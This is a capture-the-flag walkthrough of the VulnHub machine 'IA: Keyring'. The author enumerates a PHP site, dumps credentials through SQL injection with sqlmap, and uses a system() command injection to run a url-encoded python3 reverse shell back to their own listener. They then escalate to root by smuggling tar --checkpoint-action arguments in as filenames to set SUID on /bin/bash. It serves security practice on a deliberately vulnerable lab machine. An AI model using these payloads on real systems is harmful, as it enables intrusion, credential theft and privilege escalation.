



# Vulnhub - IA: Keyring (1.0.1)


IA: Keyring (1.0.1) is a boot-to-root vulnerable machine. It is available to download from [VulnHub](https://www.vulnhub.com/entry/ia-keyring-101,718/).

The machine's `ip` can be found using `netdiscover` or `nmap` can be used to assist in locating the machine's `ip`, as shown below as this machine's `ip` is not shown on the login screen.

```
❯ sudo nmap -sP -T5 192.168.0.0/24                                                                                                         
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 16:45 EDT                                                                            
...
Nmap scan report for 192.168.0.83                                    
Host is up (0.00024s latency).                                       
MAC Address: 08:00:27:1A:A6:C4 (Oracle VirtualBox virtual NIC)                                                                             
...
Nmap done: 256 IP addresses (13 hosts up) scanned in 2.66 seconds
```

## Recon

Once the machine's `ip` is known, we begin by running a `nmap` scan to determine the open `ports` on the host.

```
❯ sudo nmap -sV -sC -p- -T4 -oN iakeyring.nmap 192.168.0.83
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 16:48 EDT
Nmap scan report for 192.168.0.83
Host is up (0.000075s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:eb:fd:0a:76:8a:2a:75:6e:9b:6e:7b:51:c4:28:db (RSA)
|   256 53:31:35:c0:3a:a0:48:2f:3a:79:f5:56:cd:3c:63:ee (ECDSA)
|_  256 8d:7b:d3:c9:15:61:03:b1:b5:f1:d2:ed:2c:01:55:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:1A:A6:C4 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
```

Seeing as we only have two open ports, `22` and `80`, we will begin enumeration on `80`. Right away we can see from the `nmap` scan that this machine is most likely an `Ubuntu` box, and is running `Apache 2.4.29`. Before manually exploring port `80` using a web browser, I'll start a `gobuster` scan to try to brute-force some directories and files on the server.

```
❯ gobuster dir -u http://192.168.0.83 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.83
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2021/11/03 16:53:04 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 3254]
/about.php            (Status: 302) [Size: 561] [--> index.php]
/home.php             (Status: 302) [Size: 561] [--> index.php]
/login.php            (Status: 200) [Size: 1466]               
/history.php          (Status: 200) [Size: 31]                 
/logout.php           (Status: 302) [Size: 0] [--> index.php]  
/control.php          (Status: 302) [Size: 561] [--> index.php]
Progress: 146768 / 882244 (16.64%)
```

Visiting `http://192.168.0.83` displays a login screen.


Trying simple username and password combinations, such as `admin:admin` or `admin:password` by hand do not result in a successful login. Noticing the `signup` button, we decide to simply see if we can create our own account instead.



Awesome! We were able to create a user `platonicgerm` with the password `password`. Now we can attempt to log in.



Now that we are logged in, we can do some manual enumeration to see what we find. Browsing to `control.php` reveals some interesting information. Perhaps a hint?

```
HTTP Parameter Pollution or HPP in short is a vulnerability that occurs
due to passing of multiple parameters having same name
```

Not noticing too much, we can look at the `gobuster` scan which has now completed.

```
/index.php            (Status: 200) [Size: 3254]
/about.php            (Status: 302) [Size: 561] [--> index.php]
/home.php             (Status: 302) [Size: 561] [--> index.php]
/login.php            (Status: 200) [Size: 1466]               
/history.php          (Status: 200) [Size: 31]                 
/logout.php           (Status: 302) [Size: 0] [--> index.php]  
/control.php          (Status: 302) [Size: 561] [--> index.php]
/server-status        (Status: 403) [Size: 277]      
```

It appears that there is an additional page that we can try to access, `history.php`, however browsing to it reveals it seems to be empty. Looking at the `request` in `firefox`'s developer's tools also did not seem to show anything interesting.



Out of curiosity, I attempted to use `ffuf` to see if maybe we can brute-force a parameter, the thought process being that maybe this page normally displays a history of a user's action on the site. We will need the `PHPSESSID` for the authentication, which we can just copy from `firefox`'s developer tools. I grab a list of common parameter names from [here](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/burp-parameter-names.txt) to use.

```
❯ ffuf -fw 1 -u http://192.168.0.83/history.php?FUZZ=platonicgerm -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc -w burp-parameter-names.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.83/history.php?FUZZ=platonicgerm
 :: Wordlist         : FUZZ: burp-parameter-names.txt
 :: Header           : Cookie: PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

user                    [Status: 200, Size: 129, Words: 5, Lines: 1]
:: Progress: [2588/2588] :: Job [1/1] :: 2091 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Success! We have found a `parameter`. Manually checking what our response was when passing `platonicgerm` seems to show the page history of the user on the site.

```
❯ curl http://192.168.0.83/history.php?user=platonicgerm -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   129  100   129    0     0   125k      0 --:--:-- --:--:-- --:--:--  125k
Pages visited by user platonicgerm

home

about

home

about

home

home

about
```

Maybe we can see the history of the `admin` user?

```
❯ curl http://192.168.0.83/history.php?user=admin -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    80  100    80    0     0  80000      0 --:--:-- --:--:-- --:--:-- 80000
Pages visited by user admin

https://github.com/cyberbot75/keyring
```

It looks like the `admin` user visited a github page. We can clone this repository on our system to examine the code.

```
❯ git clone https://github.com/cyberbot75/keyring
Cloning into 'keyring'...
remote: Enumerating objects: 21, done.
remote: Counting objects: 100% (21/21), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 21 (delta 9), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (21/21), 6.26 KiB | 6.26 MiB/s, done.
Resolving deltas: 100% (9/9), done.
```

Looking inside, we appear to have the files that make up the site.

```
[ main ✓ ] ❯ ls
about.php  control.php  home.php  index.php  login.php  logout.php
```

A quick `grep` search for some passwords reveal a possible `sql` password of `sqluserrootpassw0r4`.

```
[ main ✓ ] ❯ grep -i passw *
about.php:      $password = "sqluserrootpassw0r4";
about.php:      $conn = mysqli_connect($servername, $username, $password, $database);
control.php:    $password = "sqluserrootpassw0r4";
control.php:    $conn = mysqli_connect($servername, $username, $password, $database);
home.php:       $password = "sqluserrootpassw0r4";
home.php:       $conn = mysqli_connect($servername, $username, $password, $database);
index.php:input[type=text], input[type=password] {
index.php:input[type=text]:focus, input[type=password]:focus {
index.php:    <label for="psw"><b>Password</b></label>
index.php:    <input type="password" placeholder="Enter Password" name="upass" required>
index.php:$password = "sqluserrootpassw0r4";
index.php:$conn = mysqli_connect($servername, $username, $password, $database);
index.php:      $sql = "insert into details (name,password) values('$us','$pa')";
login.php:input[type=text], input[type=password] {
login.php:    <label for="psw"><b>Password</b></label>
login.php:    <input type="password" placeholder="Enter Password" name="upass" required>
login.php:$password = "sqluserrootpassw0r4";
login.php:$conn = mysqli_connect($servername, $username, $password, $database);
login.php:      $sql = "select name from details where name='$us' and password='$pa'";
```

Further manual enumeration of `control.php` reveals a very interesting line.

```
system($_GET['cmdcntr']); //system() function is not safe to use , dont' forget to remove it in production .
```

We might be able to execute an `RCE` on the website!

```
[ main ✓ ] ❯ curl http://192.168.0.83/control.php?cmdcntr=id -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   690  100   690    0     0   336k      0 --:--:-- --:--:-- --:--:--  336k
    * Home
    * Control
    * About
    * Logout
HTTP Parameter Pollution or HPP in short is a vulnerability that occurs
due to passing of multiple parameters having same name
```

However, our initial attempts are not successful. From here, we can take another look at `history.php` and see if we might have an `sqli` vulnerability.

```
[ main ✓ ] ❯ sqlmap -u http://192.168.0.83/history.php?user=HACKME --cookie="PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc"
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:36:49 /2021-11-03/
...
[17:37:00] [INFO] GET parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
...
GET parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=HACKME' AND (SELECT 6235 FROM (SELECT(SLEEP(5)))exSH) AND 'LWxD'='LWxD

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: user=HACKME' UNION ALL SELECT CONCAT(0x71786b7171,0x4857747478696555794c4741507463674c667469616f49795354595a68444f705a48565173527951,0x716b7a6271)-- -
---
```

We have an injection point!

```
[ main ✓ ] ❯ sqlmap -u http://192.168.0.83/history.php?user=HACKME --cookie="PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc" --dump
...
Database: users
Table: details
[4 entries]
+--------------+-----------------------+
| name         | password              |
+--------------+-----------------------+
| admin        | myadmin#p4szw0r4d     |
| john         | Sup3r$S3cr3t$PasSW0RD |
| platonicgerm | password              |
+--------------+-----------------------+
...
```

And some cool passwords!

## User

Now that we have some usernames and passwords, we can try to see if it will work over `ssh`.

```
[ main ✓ ] ❯ ssh john@192.168.0.83
The authenticity of host '192.168.0.83 (192.168.0.83)' can't be established.
ECDSA key fingerprint is SHA256:nKvtOO2gybF1JTzDAzMEphpUdeq3LtFcnzjfFVQxoz8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.83' (ECDSA) to the list of known hosts.
john@192.168.0.83: Permission denied (publickey).
```

Unfortunetly, it appears that we need a private key to log in. Deciding to revisit, `control.php`, logging in to the site as `admin` using their password, and afterwards try the command injection again with the correct `PHPSESSID`.

```kali@kali ~/Documents/iakeyring/keyring/html
[ main ✓ ] ❯ curl http://192.168.0.83/control.php?cmdcntr=id -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   785  100   785    0     0   8532      0 --:--:-- --:--:-- --:--:--  8532
    * Home
    * Control
    * About
    * Logout
HTTP Parameter Pollution or HPP in short is a vulnerability that occurs
due to passing of multiple parameters having same name

Date & Time : 2021-11-04 03:26:21uid=33(www-data) gid=33(www-data) groups=33
(www-data)
```

Success! We now have `RCE` on the host. Time to run a `reverse shell` to get access to the box. Using [revshells](https://www.revshells.com/), we can quickly and easily create a `reverse shell` with url-encoding using `python3`.

```
[ main ✓ ] ❯ curl http://192.168.0.83/control.php?cmdcntr=export%20RHOST%3D%22192.168.0.94%22%3Bexport%20RPORT%3D9001%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27 -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc
```

And we recieve a call back on our listener!

```
❯ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.0.94] from (UNKNOWN) [192.168.0.83] 35910
$ whoami
whoami
www-data
```

We will need to upgrade our shell, which can be done with `python3`.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@keyring:/var/www/html$
```

The we need to upgrade to a full `tty` by backgrounding the task with `ctrl-z`, executing `stty raw -echo`, then returning the shell to the `fg` and pressing enter twice, then `export TERM=screen`.

```
www-data@keyring:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 9001
kali@kali ~
❯ stty raw -echo
kali@kali ~
nc -lvnp 9001

www-data@keyring:/var/www/html$ export TERM=screen
```

Trying to browse to `john`'s home directory is met with `permission denied`.

```
www-data@keyring:/var/www/html$ ls /home
john
www-data@keyring:/var/www/html$ cd /home/john
bash: cd: /home/john: Permission denied
```

We can try to `su` to `john`, as we do have a possible password that was recovered from earlier.

```
www-data@keyring:/var/www/html$ su - john
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

john@keyring:~$
```

Now that we are the `john` user, we can finally grab the `user.txt`.

```
john@keyring:~$ cd; cat user.txt 

[ Keyring - User Owned ]
----------------------------------------------
Flag : VEhNe0Jhc2hfMXNfRnVuXzM4MzEzNDJ9Cg==
----------------------------------------------
by infosecarticles with <3
```

## Root

We quickly check if we can run `sudo` on the machine, but we can not.

```
john@keyring:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for john: 
Sorry, user john may not run sudo on keyring.
```

Examining the `home` directory, we see we do have a `suid` binary.

```
john@keyring:~$ ls -l
total 24
-rwsr-xr-x 1 root root 16784 Jun 20 11:25 compress
-rw-rw-r-- 1 john john   192 Jun 20 14:24 user.txt
```

We do not have `strings` installed, so we can't get a basic idea of what the binary might be calling, so we just have to execute it and see what happens.

```
john@keyring:~$ ./compress
john@keyring:~$ ls -l
total 44
-rw-rw-r-- 1 root root 20480 Nov  4 03:49 archive.tar
-rwsr-xr-x 1 root root 16784 Jun 20 11:25 compress
-rw-rw-r-- 1 john john   192 Jun 20 14:24 user.txt
```

Running it with no arguments appears to have generated a `tar` archive. Let's see what's inside.

```
john@keyring:~$ tar xvf archive.tar 
compress
tar: compress: Cannot open: File exists
user.txt
tar: Exiting with failure status due to previous errors
```

It looks like it archives `john`'s home directory. Looking over [gtfobins](https://gtfobins.github.io/gtfobins/tar/), it might be possible to try to exploit this. Since we can't pass any extra arguments to `tar`, perhaps we can create files with the right arguments to exploit the application.

```
john@keyring:~$ touch ./"--checkpoint-action=exec=sh script.sh"       
john@keyring:~$ touch ./"--checkpoint=1"                              
john@keyring:~$ vi script.sh
john@keyring:~$ cat script.sh 
#!/bin/bash
chmod +s /bin/bash
```

Now we can check to see if `/bin/bash` has `suid` set.

```
john@keyring:~$ ./compress 
/bin/tar: archive.tar: file is the archive; not dumped
john@keyring:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  5  2018 /bin/bash
```

It does! Now we can execute `/bin/bash` to get a `root shell` and `root.txt`!

```
john@keyring:~$ /bin/bash -p
bash-4.4# uname -a; whoami; cat /root/root.txt
Linux keyring 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
root
[ Keyring - Rooted ]
---------------------------------------------------
Flag : VEhNe0tleXIxbmdfUjAwdDNEXzE4MzEwNTY3fQo=
---------------------------------------------------
by infosecarticles with <3
```
